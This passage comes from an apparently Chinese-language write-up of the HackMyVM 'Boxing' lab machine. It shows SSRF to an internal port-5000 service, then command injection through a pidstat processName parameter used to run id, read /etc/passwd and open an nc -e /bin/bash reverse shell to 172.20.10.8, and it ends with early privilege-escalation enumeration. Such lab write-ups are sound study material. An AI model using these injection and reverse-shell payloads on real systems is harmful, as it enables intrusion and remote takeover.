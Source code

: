 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302343.png" alt="image-20240402214003026" style="zoom: 33%;" />

多扫出来了一个`5000`端口！

```bash
http://staging-env.boxing.hmv/index.php?url=boxing.hmv:aaa@127.0.0.1:5000
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302344.png" alt="image-20240402214325005" style="zoom:33%;" />

### 漏洞利用

这个时候师傅又发现了一个payload：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302345.png" alt="image-20240402233414243" style="zoom: 35%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040310755.png" alt="image-20240402233157673" style="zoom:50%;" />

尝试一下：

```bash
http://staging-env.boxing.hmv/index.php?url=boxing.hmv:aaa@127.0.0.1:5000?processName='apache'+-e+id
http://staging-env.boxing.hmv/index.php?url=boxing.hmv%3Aaaa%40127.0.0.1%3A5000%3FprocessName%3D%27apache%27%2B-e%2Bid
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302347.png" alt="image-20240402233702911" style="zoom: 33%;" />

牛逼，尝试RCE。

```bash
http://staging-env.boxing.hmv/index.php?url=boxing.hmv:aaa@127.0.0.1:5000?processName='apache'+-e+cat+/etc/passwd
http://staging-env.boxing.hmv/index.php?url=boxing.hmv%3Aaaa%40127.0.0.1%3A5000%3FprocessName%3D%27apache%27%2B-e%2Bcat%2B%2Fetc%2Fpasswd
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302348.png" alt="image-20240402233910612" style="zoom:33%;" />

```bash
http://staging-env.boxing.hmv/index.php?url=boxing.hmv:aaa@127.0.0.1:5000?processName='apache'+-e+nc+-e+/bin/bash+172.20.10.8+1234
http://staging-env.boxing.hmv/index.php?url=boxing.hmv%3Aaaa%40127.0.0.1%3A5000%3FprocessName%3D%27apache%27%2B-e%2Bnc%2B-e%2B%2Fbin%2Fbash%2B172.20.10.8%2B1234
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404040302349.png" alt="image-20240402233910612" style="zoom:33%;" />

## 提权

### 信息搜集

```bash
(remote) www-data@boxing:/opt/pidstat$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groupes=33(www-data)
(remote) www-data@boxing:/opt/pidstat$ ls -la
total 12
drwxr-xr-x 2 root root 4096  4 févr. 03:15 .
drwxr-xr-x 4 root root 4096  4 févr. 03:15 ..
-rw-r--r-- 1 root root 1876  4 févr. 03:15 index.php
(remote) www-data@boxing:/opt/pidstat$ cd ../
(remote) www-data@boxing:/opt$ ls -la
total 16
drwxr-xr-x  4 root root 4096  4 févr. 03:15 .
drwxr-xr-x 18 root root 4096  4 févr. 16:47 ..
```